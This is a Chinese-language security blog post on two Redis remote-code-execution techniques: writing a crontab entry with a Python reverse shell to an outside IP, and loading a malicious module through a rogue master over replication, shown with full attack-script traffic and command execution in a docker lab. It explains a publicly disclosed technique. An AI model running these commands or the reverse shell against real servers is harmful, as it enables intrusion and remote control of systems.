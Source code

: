 ```yaml
---
title: Redis 基于主从复制的RCE利用方式
date: 2019-07-10 16:36:11
tags:
- redis
- rce
---
```


在2019年7月7日结束的WCTF2019 Final上，LC/BC的成员Pavel Toporkov在分享会上介绍了一种关于redis新版本的RCE利用方式，比起以前的利用方式来说，这种利用方式更为通用，危害也更大，下面就让我们从以前的redis RCE利用方式出发，一起聊聊关于redis的利用问题。

[https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)


<!--more-->

# 通过写入文件 GetShell

未授权的redis会导致GetShell，可以说已经是众所周知的了。
```
127.0.0.1:6379> config set dir /var/spool/cron/crontabs
OK
127.0.0.1:6379> config set dbfilename root
OK
127.0.0.1:6379> get 1
"\n* * * * * /usr/bin/python -c 'import socket,subprocess,os,sys;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"115.28.78.16\",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n"
127.0.0.1:6379> save
OK
```

而这种方式是通过写文件来完成GetShell的，这种方式的主要问题在于，redis保存的数据并不是简单的json或者是csv，所以写入的文件都会有大量的无用数据，形似
```
[padding]
* * * * * /usr/bin/python -c 'import socket,subprocess,os,sys;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"115.28.78.16\",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'
[padding]
```

这种主要利用了crontab、ssh key、webshell这样的文件都有一定容错性，再加上crontab和ssh服务可以说是服务器的标准的服务，所以在以前，这种通过写入文件的getshell方式基本就可以说是很通杀了。

但随着现代的服务部署方式的不断发展，组件化成了不可逃避的大趋势，docker就是这股风潮下的产物之一，而在这种部署模式下，一个单一的容器中不会有除redis以外的任何服务存在，包括ssh和crontab，再加上权限的严格控制，只靠写文件就很难再getshell了，在这种情况下，我们就需要其他的利用手段了。

# 通过主从复制 GetShell

在介绍这种利用方式之前，首先我们需要介绍一下什么是主从复制和redis的模块。

## Redis主从复制

Redis是一个使用ANSI C编写的开源、支持网络、基于内存、可选持久性的键值对存储数据库。但如果当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。为了应对这种情况，Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。

这里我们开两台docker来做测试
```
ubuntu@VM-1-7-ubuntu:~/lorexxar$ sudo docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                    NAMES
3fdb2479af9c        redis:5.0           "docker-entrypoint.s…"   22 hours ago        Up 4 seconds        0.0.0.0:6380->6379/tcp   epic_khorana
3e313c7498c2        redis:5.0           "docker-entrypoint.s…"   23 hours ago        Up 23 hours         0.0.0.0:6379->6379/tcp   vibrant_hodgkin
```

然后通过slaveof可以设置主从状态

![image.png-62.6kB][1]

这样一来数据就会自动同步了

## Redis模块

在了解了主从同步之后，我们还需要对redis的模块有所了解。

在Reids 4.x之后，Redis新增了模块功能，通过外部拓展，可以实现在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。

编写恶意so文件的代码
[https://github.com/RicterZ/RedisModules-ExecuteCommand](https://github.com/RicterZ/RedisModules-ExecuteCommand)


## 利用原理

Pavel Toporkov在2018年的zeronights会议上，分享了关于这个漏洞的详细原理。

[https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

![image.png-1550kB][2]

在ppt中提到，在两个Redis实例设置主从模式的时候，Redis的主机实例可以通过FULLRESYNC同步文件到从机上。

然后在从机上加载so文件，我们就可以执行拓展的新命令了。

## 复现过程

这里我们选择使用模拟的恶意服务端来作为主机，并模拟fullresync请求。

[https://github.com/LoRexxar/redis-rogue-server](https://github.com/LoRexxar/redis-rogue-server)

然后启用redis 5.0的docker

```
ubuntu@VM-1-7-ubuntu:~/lorexxar/redis-rogue-server$ sudo docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                    NAMES
3e313c7498c2        redis:5.0           "docker-entrypoint.s…"   25 hours ago        Up 25 hours         0.0.0.0:6379->6379/tcp   vibrant_hodgkin
```

为了能够更清晰的看到效果，这里我们把从服务端执行完成后删除的部分暂时注释掉。

然后直接通过脚本来攻击服务端
```
ubuntu@VM-1-7-ubuntu:~/lorexxar/redis-rogue-server$ python3 redis-rogue-server_5.py --rhost 172.17.0.3 --rport 6379 --lhost 172.17.0.1 --lport 6381
TARGET 172.17.0.3:6379
SERVER 172.17.0.1:6381
[<-] b'*3\r\n$7\r\nSLAVEOF\r\n$10\r\n172.17.0.1\r\n$4\r\n6381\r\n'
[->] b'+OK\r\n'
[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
[->] b'+OK\r\n'
[->] b'*1\r\n$4\r\nPING\r\n'
[<-] b'+PONG\r\n'
[->] b'*3\r\n$8\r\nREPLCONF\r\n$14\r\nlistening-port\r\n$4\r\n6379\r\n'
[<-] b'+OK\r\n'
[->] b'*5\r\n$8\r\nREPLCONF\r\n$4\r\ncapa\r\n$3\r\neof\r\n$4\r\ncapa\r\n$6\r\npsync2\r\n'
[<-] b'+OK\r\n'
[->] b'*3\r\n$5\r\nPSYNC\r\n$40\r\n17772cb6827fd13b0cbcbb0332a2310f6e23207d\r\n$1\r\n1\r\n'
[<-] b'+FULLRESYNC ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ 1\r\n$42688\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00'......b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x11\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xea\x9f\x00\x00\x00\x00\x00\x00\xd3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\r\n'
[<-] b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$8\r\n./exp.so\r\n'
[->] b'+OK\r\n'
[<-] b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
[->] b'+OK\r\n'
```

然后我们链接上去就可以执行命令
```
ubuntu@VM-1-7-ubuntu:~/lorexxar/redis-rogue-server$ redis-cli -h 172.17.0.3
172.17.0.3:6379> system.exec "id"
"\x89uid=999(redis) gid=999(redis) groups=999(redis)\n"
172.17.0.3:6379> system.exec "whoami"
"\bredis\n"
```





  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ez0kvxi6tsjj6yafo2jflf69/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1acc0xkhkaq31lgduuzpau23/image.png
